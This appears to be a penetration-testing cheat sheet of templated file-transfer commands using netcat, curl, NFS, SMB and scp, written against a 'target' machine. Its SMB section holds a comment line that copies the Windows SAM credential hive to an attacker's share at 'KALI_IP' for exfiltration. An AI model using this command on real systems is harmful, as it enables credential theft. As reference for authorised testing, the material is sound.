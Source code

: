 # Linux File Transfers

## Netcat

##### start listener on target
```sh
nc -nlvp [PORT] > [RECIVING_FILE]
```
##### send the file
```
nc [IP] [PORT] < [SENDING_FILE]
```

## Curl

```sh
curl -F "upload=@[FILE]" https://[IP]/[FILE]
```

```
curl -o [FILE] https://[IP]/[FILE]
```


## NFS Shares

```sh
sudo mkdir -p /mnt/[SHARE]
mount -t nfs -o vers=3 [IP]:/[FOLDER]/ /mnt/[SHARE]
```
```sh
sudo mkdir -p /mnt/[SHARE]
mount -t nfs -o vers=2 [REMOTE_IP]:/[FOLDER]/ /mnt/[SHARE]
```
##### Unmount
```sh
sudo umount /mnt/[SHARE]
```
##### Mount at Boot
```sh
[IP]:/[SHARE]/[FOLDER]  /mnt/[SHARE]  nfs  defaults,vers=3  0  0
```

## SMB Shares

##### Mount SMB Share
```sh
sudo mount -t cifs -o vers=1.0 //[REMOTE_IP]/'[SHARE]' /mnt/[SHARE]
```
##### Host SMB Share
```sh
sudo impacket-smbserver [SHARE] .
# to use for exfil: copy C:\Windows\Repair\SAM \\KALI_IP\share\sam.save
```
##### Upload from Target
```
copy C:\Path\To\[FILE] \\[IP]\[SHARE]\[FILE]
```
##### Upload with curl to Target
```sh
curl --upload-file /Path/To/[FILE] -u 'DOMAIN\[USER]' smb://[IP]/[SHARE]/
```
##### Use smbclient to Get ALL files from an SMB share
```sh
smbclient //[IP]/[SHARE]
RECURSE ON
PROMPT OFF
mget *
```

### SCP
##### Copy TO Remote Machine
```sh
scp /[LOCAL_PATH]/[FILE] [USER]@[IP]:/[REMOTE_PATH]/[FILE]
```

##### Copy FROM Remote Machine
```sh
scp [USER]@[IP]:/[REMOTE_PATH]/[FILE] /[LOCAL_PATH]/[FILE]
```